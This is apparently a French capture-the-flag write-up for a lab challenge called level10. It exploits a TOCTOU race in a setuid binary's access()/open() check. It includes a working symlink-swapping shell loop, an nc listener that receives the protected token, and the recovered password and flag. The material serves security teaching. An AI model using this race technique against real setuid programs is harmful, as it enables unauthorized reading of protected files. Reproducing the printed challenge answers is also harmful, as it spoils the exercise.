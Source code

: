 ## Démarche
- Dans le home :
  
  `ls -la`
  > -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
  > 
  > -rw-------  1 flag10  flag10     26 Mar  5  2016 token

- À l'exécution : `./level10`
    > ./level10 file host
	  >
    > sends file to host if you have access to it

- Décortiquer le fonctionnement du binaire :
  
  - `strings level10`
    > Connecting to %s:6969 ..
  - `nm -u level10`
    ```
      w _Jv_RegisterClasses
      U __errno_location@@GLIBC_2.0
      w __gmon_start__
      U __libc_start_main@@GLIBC_2.0
      U __stack_chk_fail@@GLIBC_2.4
      U access@@GLIBC_2.0
      U connect@@GLIBC_2.0
      U exit@@GLIBC_2.0
      U fflush@@GLIBC_2.0
      U htons@@GLIBC_2.0
      U inet_addr@@GLIBC_2.0
      U open@@GLIBC_2.0
      U printf@@GLIBC_2.0
      U puts@@GLIBC_2.0
      U read@@GLIBC_2.0
      U socket@@GLIBC_2.0
      U strerror@@GLIBC_2.0
      U write@@GLIBC_2.0
    ```

- Le manual de la fonction access mentionne une faille TOCTOU :
  `man access`
  > Warning: Using access() to  check  if  a  user  is
       authorized  to,  for  example,  open a file before
       actually doing so using open(2) creates a security
       hole,  because  **the  user  might exploit the short
       time interval between  checking  and  opening  the
       file  to  manipulate it.**  For this reason, the use
       of this system call should be  avoided.   (In  the
       example  just described, a safer alternative would
       be to temporarily switch the  process's  effective
       user ID to the real ID and then call open(2).)

  > A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls.


- Utiliser un script pour exploiter cette faille :
  *On créé un lien vers un fichier dont les droits d'accès sont ouverts et change le lien vers le fichier token que l'on souhaite lire entre la vérification d'`access` et son ouverture*
  ```
      touch x
      while true; do
        ln -sf ./x fake & 
        ~/level10 fake 127.0.0.1 & 
        ln -sf /home/user/level10/token fake &
      done
  ```

- Transférer et lancer le script sur la VM :
  
  `scp -P 4242 level10/ressources/script.sh level10@192.168.0.17:/tmp`

  *Dans la VM :*
  `sh script.sh`

- En parallèle, écouter le port 6969 : 
  `nc -l 6969`
  > .*( )*.
  > 
  > woupa2yuojeeaaed06riuj63c

- Se connecter avec `su flag10`:`woupa2yuojeeaaed06riuj63c`
- Récupérer le flag :
  `getflag`
  > Check flag.Here is your token : feulo4b72j7edeahuete3no7c

## Ressources
- [Testing Permission to Access a File](https://www.gnu.org/software/libc/manual/html_node/Testing-File-Access.html)
- [Time of check to time of use (TOCTOU): A race condition](https://hackernoon.com/time-of-check-to-time-of-use-toctou-a-race-condition-99c2311bd9fc)